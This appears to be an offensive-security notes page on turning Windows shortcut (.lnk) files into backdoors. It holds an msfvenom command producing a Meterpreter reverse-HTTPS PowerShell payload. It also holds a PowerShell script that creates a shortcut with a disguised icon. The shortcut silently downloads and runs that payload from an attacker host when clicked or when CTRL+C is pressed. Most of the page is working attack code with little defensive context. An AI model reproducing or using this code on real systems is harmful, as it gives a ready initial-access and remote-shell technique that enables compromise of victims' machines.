 # Manual

> [!INFO]
> Windows shortcut link (`.lnk`) is often referred as **Shell Link**.

## 01 - Custom Icons

```
C:\Windows\System32\msi.dll
C:\Program Files (x86)\Microsoft Office\root\Office16\WINWORD.exe
```

## 02 - Generate Shortcut

### 2.1 - PowerShell

> [!NOTE] Characters Limit
> The **TargetPath** has a limit of 260 characters long. If you're using powershell payload then it's recommended to use `psh-cmd` format instead of `psh`, `psh-reflection`, and `psh-net`.

```
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=<IP> lport=<PORT> exitfunc=thread -f psh-cmd | sed 's/%COMSPEC% \/b \/c start \/b \/min powershell\.exe -nop -w hidden -e //g' | base64 -d > payload.ps1
```

TODO: Remove timestamps in the .lnk file

```powershell
$WScriptShell = New-Object -ComObject WScript.Shell
$ShortcutPath = "C:\Users\" + $Env:USERNAME + "\Desktop\mal.lnk"
$Shortcut = $WScriptShell.CreateShortcut($ShortcutPath)
$Shortcut.TargetPath = 'conhost.exe'
$Shortcut.Arguments = "--headless powershell.exe -nop -NonI -Nologo -w hidden -c `"IEX ((new-object net.webclient).downloadstring(`'http[s]://<attacker_IP>/payload.ps1`'))`"`""
$Shortcut.Description = "A shortcut backdoor"
$Shortcut.IconLocation = 'shell32.dll,21'
$Shortcut.HotKey = 'CTRL+C' # A hotkey to trigger the payload
$Shortcut.WindowStyle = 7   # 1 - Normal, 3 - Maximized, 7 - Minimized
$Shortcut.WorkingDirectory = "C:\Users\" + $Env:USERNAME + "\Public"
$Shortcut.Save()
```

---
## References

### Backlinks

- [[01 - Capture Hashes via Spoof SMB Shares|Responder: Capture Hashes via Spoof SMB Shares Scenario]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Authentication Relay/Metasploit|Metasploit: Capture Hashes]]

- [[HTA Web Server|Metasploit: HTA Web Server]]

- [[SMB Delivery|Metasploit: SMB Delivery]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Linux/C2 Frameworks|Metasploit: Web Delivery]]

### Source Repositories

- [nobodyatall648: Malicious LNK File Abuse Hotkey Feature](https://github.com/nobodyatall648/Malicious-LNK-File-Abuse-Hotkey-Feature)

- [B00merang-Artwork: Windows 10](https://github.com/B00merang-Artwork/Windows-10)